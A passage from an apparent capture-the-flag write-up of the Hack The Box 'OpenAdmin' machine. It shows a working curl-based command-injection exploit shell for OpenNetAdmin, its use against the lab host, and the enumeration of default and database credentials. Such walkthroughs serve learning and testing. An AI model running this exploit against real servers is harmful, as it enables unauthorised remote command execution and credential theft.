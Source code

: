 ```
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

Copied that into a local file and we are ready to use it.

```
mindslave@kalibox:~/hackthebox/OpenAdmin$ ./exploit.sh 10.10.10.171/ona/
$ whoami
www-data
```

# 0x2 Getting the user.txt

Now this part of the box took really, and I mean really, long for me.
The first useful thing I found by looking at /etc/home is that there
are 2 users jimmy and joanna
from looking at the /etc/passwd we could also learn that jimmy is the admin for the apache server

```
/etc/apache2/sites-available/openadmin.conf:    ServerAdmin jimmy@openadmin.htb
```

And I also found out that you can look into /ona with admin admin as default creds which, ofcourse, still worked

```
/opt/ona/docs/INSTALL:8. You can log in as "admin" with a password of "admin"
```

And I also found these database credentials

```
<?php

$ona_contexts=array (
  'DEFAULT' =>
  array (
    'databases' =>
    array (
      0 =>
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```
